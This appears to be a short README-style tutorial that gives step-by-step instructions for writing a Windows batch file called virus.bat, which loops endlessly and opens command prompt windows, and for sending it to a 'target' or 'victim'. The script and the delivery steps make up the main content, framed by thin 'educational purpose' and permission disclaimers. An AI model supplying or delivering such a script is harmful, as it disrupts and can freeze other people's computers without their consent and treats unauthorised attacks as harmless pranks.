 to spam an app on to your victems laptop, desktop or pc all you gotta do is follow this simple steps 
# Disclamer do not do it without permission by the way this only works for laptop, desktop and pc
Step 1: open the notepad on your computer or whatever
Step 2: type in the following commands
Code: @echo off
       :loop
       start
       start
       start
       start
       goto loop
Step 3: click exit and save make sure you wrote start 4 times
Step 4: name the file virus.bat and save it where ever you want
Step 5: send the file to a target and as soon as they open it cmd (command prompt) will spam open so many times       
# Educational purpose use only
by the way i'll try make a download button on this file so you guys can just download it and dn't have to write the entire code :)
